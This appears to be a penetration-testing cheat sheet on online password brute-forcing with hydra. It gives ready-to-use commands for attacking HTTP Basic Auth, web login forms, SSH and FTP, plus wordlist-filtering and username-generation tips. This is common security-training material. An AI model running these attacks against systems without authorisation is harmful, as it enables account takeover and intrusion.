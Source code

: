 # Brute Force - CheatSheet

[Hacktricks](https://book.hacktricks.xyz/brute-force)

## List supported Services

```
hydra -h | grep "Supported services" | tr ":" "\n" | tr " " "\n" | column -e
```

To find out how to use the `http-post-form` module, we can use the "`-U`" flag to list the parameters it requires and examples of usage:

```
hydra http-post-form -U

<...SNIP...>
Syntax:   <url>:<form parameters>:<condition string>[:<optional>[:<optional>]
First is the page on the server to GET or POST to (URL).
Second is the POST/GET variables ...SNIP... usernames and passwords being replaced in the
 "^USER^" and "^PASS^" placeholders
The third is the string that it checks for an *invalid* login (by default)
 Invalid condition login check can be preceded by "F=", successful condition
 login check must be preceded by "S=".

<...SNIP...>

Examples:
 "/login.php:user=^USER^&pass=^PASS^:incorrect"
```

### Custom Wordlist with hydra

Please refer to Hashcat section for creating wordlists

```bash
sed -ri '/^.{,7}$/d' william.txt            # remove shorter than 8
sed -ri '/[!-/:-@\[-`\{-~]+/!d' william.txt # remove no special chars
sed -ri '/[0-9]+/!d' william.txt            # remove no numbers
```

&#x20;for omangling and case permutation quickly and easily, like [rsmangler](https://github.com/digininja/RSMangler) or [The Mentalist](https://github.com/sc0tfree/mentalist.git).

### Custom Username List

One such tool we can use is [Username Anarchy](https://github.com/urbanadventurer/username-anarchy).

## Random CheatSheet

```
hydra -h 	hydra help
hydra -C wordlist.txt SERVER_IP -s PORT http-get / 	Basic Auth Brute Force - Combined Wordlist
hydra -L wordlist.txt -P wordlist.txt -u -f SERVER_IP -s PORT http-get / 	Basic Auth Brute Force - User/Pass Wordlists
hydra -l admin -P wordlist.txt -f SERVER_IP -s PORT http-post-form "/login.php:username=^USER^&password=^PASS^:F=<form name='login'" 	Login Form Brute Force - Static User, Pass Wordlist
hydra -L bill.txt -P william.txt -u -f ssh://SERVER_IP:PORT -t 4 	SSH Brute Force - User/Pass Wordlists
hydra -l m.gates -P rockyou-10.txt ftp://127.0.0.1 	FTP Brute Force - Static User, Pass Wordlist
```

